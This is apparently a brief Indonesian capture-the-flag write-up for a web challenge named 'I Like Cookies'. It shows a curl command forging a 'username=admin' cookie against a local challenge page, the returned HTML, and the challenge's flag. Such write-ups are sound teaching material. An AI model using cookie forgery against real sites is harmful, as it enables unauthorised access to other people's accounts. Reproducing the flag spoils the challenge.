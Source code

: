 <h1><b>I Like Cookies</h1></b>
<pre>
I Like Cookies
</pre>
</b><h3>Solution</h3></b>
<p>Jika kita perhatikan user cookie=bob, ganti ke admin dengan tool edit cookie atau curl</p>

```console
root@Python:/var/www/html/CTF# curl --cookie 'username=admin' http://localhost/CTF/Web_warning/Web-Warning-5.php
<!DOCTYPE html>
<html>
<head>
	<title>Web Warning-5</title>
	<link rel="stylesheet" type="text/css" href="most_template.css" media="all" />
</head>
<body align='center' style="background-color:rgb(100,100,100)">

<h2 class='success'>Your Flag is VenomCTF{It_Cook1e_f0r_y0u}</h2><img src="../image/cookiess.jpg" width="600">
</body>
</html>
```
</b><h3>Flag</h3></b>
<pre>
VenomCTF{It_Cook1e_f0r_y0u}
</pre>
